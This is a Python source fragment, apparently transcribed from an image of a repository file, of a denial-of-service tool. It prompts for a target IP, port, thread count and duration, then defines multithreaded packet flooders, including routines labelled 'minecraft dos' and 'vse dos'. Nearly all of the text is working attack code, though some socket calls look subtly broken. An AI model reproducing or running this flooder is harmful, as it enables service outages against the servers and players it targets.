 def get_info_l4():
    stdout.write("\x1b[38;2;255;20;147m • "+Fore.WHITE+"IP       "+Fore.LIGHTGREEN_EX+": "+Fore.LIGHTGREEN_EX)
    target = input()
    stdout.write("\x1b[38;2;255;20;147m • "+Fore.WHITE+"PORT     "+Fore.LIGHTGREEN_EX+": "+Fore.LIGHTGREEN_EX)
    port = input()
    stdout.write("\x1b[38;2;255;20;147m • "+Fore.WHITE+"THREAD   "+Fore.LIGHTGREEN_EX+": "+Fore.LIGHTGREEN_EX)
    thread = input()
    stdout.write("\x1b[38;2;255;20;147m • "+Fore.WHITE+"TIME(s)  "+Fore.LIGHTGREEN_EX+": "+Fore.LIGHTGREEN_EX)
    t = input()
    return target, port, thread, t
##############################################################################################

#region layer4
def runflooder(host, port, th, t):
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    rand = random._urandom(4096)
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=flooder, args=(host, port, rand, until))
            thd.start()
        except:
            pass

def flooder(host, port, rand, until_datetime):
    sock = socket.socket(socket.AF_INET, socket.IPPROTO_IGMP)
    while (until_datetime - datetime.datetime.now()).total_seconds() > 0:
        try:
            sock.sendto(rand, (host, int(port)))
        except:
            sock.close()
            pass
#minecraft dos
def runmine(host, port, th, t):
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    rand = "\x06\x00/\x00\x00\x00\x02\x0c\x00"
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=mine, args=(host, port, rand, until))
            thd.start()
        except:
            pass

def mine(host, port, rand, until_datetime):
    sock = socket.socket(socket.AF_INET, socket.IPPROTO_IGMP)
    while (until_datetime - datetime.datetime.now()).total_seconds() > 0:
        try:
            sock.sendto("\x06\x00/\x00\x00\x00\x02\x0c\x00", (host, int(port)))
        except:
            sock.close()
            pass
#vse dos
def runvse(host, port, th, t):
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    rand = "\x06\x00/\x00\x00\x00\x02\x0c\x00"
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=vse, args=(host, port, rand, until))
            thd.start()
        except:
            pass
